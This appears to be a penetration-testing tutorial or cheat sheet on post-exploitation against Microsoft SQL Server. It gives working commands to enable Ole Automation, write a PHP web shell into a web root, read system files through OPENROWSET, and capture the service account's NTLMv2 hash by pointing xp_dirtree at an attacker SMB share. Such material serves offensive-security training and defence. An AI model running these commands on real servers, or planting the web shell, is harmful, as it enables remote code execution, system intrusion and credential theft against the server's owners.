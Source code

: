 ## Write Local Files
To write files using MSSQL, we need to enable Ole Automation Procedures, which requires admin privileges, and then execute some stored procedures to create the file:

### MSSQL - Enable Ole Automation Procedures
```
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

### Create a File
```
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

## Read Local Files 
By default, MSSQL allows file read on any file in the operating system to which the account has read access. We can use the following SQL query:

```
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

## Capture MSSQL Service Hash
We can also steal the MSSQL service account hash using xp_subdirs or xp_dirtree undocumented stored procedures, which use the SMB protocol to retrieve a list of child directories under a specified parent directory from the file system. When we use one of these stored procedures and point it to our SMB server, the directory listening functionality will force the server to authenticate and send the NTLMv2 hash of the service account that is running the SQL Server.

To make this work, we need first to start Responder or impacket-smbserver and execute one of the following SQL queries:
### XP_DIRTREE Hash Stealing
```
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO
```
